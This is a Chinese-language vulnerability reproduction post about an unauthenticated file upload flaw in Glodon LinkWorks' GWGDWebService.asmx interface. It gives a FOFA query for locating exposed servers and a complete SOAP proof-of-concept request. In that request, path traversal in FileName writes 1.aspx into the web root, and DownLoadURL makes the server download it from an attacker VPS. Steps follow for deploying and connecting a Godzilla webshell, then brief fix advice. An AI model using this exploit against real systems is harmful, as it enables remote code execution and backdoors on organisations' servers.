






# 广联达linkworks 文件上传漏洞复现

### 0x01 产品简介

 [广联达](https://so.csdn.net/so/search?q=%E5%B9%BF%E8%81%94%E8%BE%BE&spm=1001.2101.3001.7020) LinkWorks（也称为 GlinkLink 或 GTP-LinkWorks）是广联达公司（Glodon）开发的一种BIM（建筑信息模型）协同平台。广联达是中国领先的数字建造技术提供商之一，专注于为建筑、工程和建筑设计行业提供数字化解决方案。

### 0x02 漏洞概述

  由于广联达 LinkWorks /GB/LK/ArchiveManagement/Js/GWGDWebService.asmx接口处设置不当，未经身份认证的攻击者通过该漏洞上传恶意文件，可能导致恶意代码执行、身份伪造、后门植入、敏感数据泄露等问题。

### 0x03 复现环境

FOFA：

```cobol
body="Services/Identification/login.ashx" || header="Services/Identification/login.ashx" || banner="Services/Identification/login.ashx"
```



### 0x04 漏洞复现 

PoC

```cobol
POST /GB/LK/ArchiveManagement/Js/GWGDWebService.asmx HTTP/1.1
Host: your-ip
Content-Type: text/xml; charset=utf-8
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:GetGWGDData>
         <!--Optional:-->
         <tem:data>
            <root>
               <GWINFO>
                  <公文标题>1</公文标题>
                  <拟稿人>拟稿人</拟稿人>
                  <主送单位>主送单位</主送单位>
                  <主题词>主题词</主题词>
                  <印发份数>1</印发份数>
                  <签发日期>2022-12-07</签发日期>
               </GWINFO>
               <aa>
                  <FileName>./../../../../../../../applications/gtp-default/Web/Common/1.aspx</FileName>
                  <DownLoadURL>http://vpsIP/1.aspx</DownLoadURL>
               </aa>
            </root>
         </tem:data>
      </tem:GetGWGDData>
   </soapenv:Body>
</soapenv:Envelope>
```

生成哥斯拉aspx马，上传至vps

python开启http服务器，发送请求



 验证



尝试连接

###  0x05 修复建议 

官方暂已修复该漏洞，请用户联系厂商修复漏洞：http://www.glinkworks.com/office.html

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
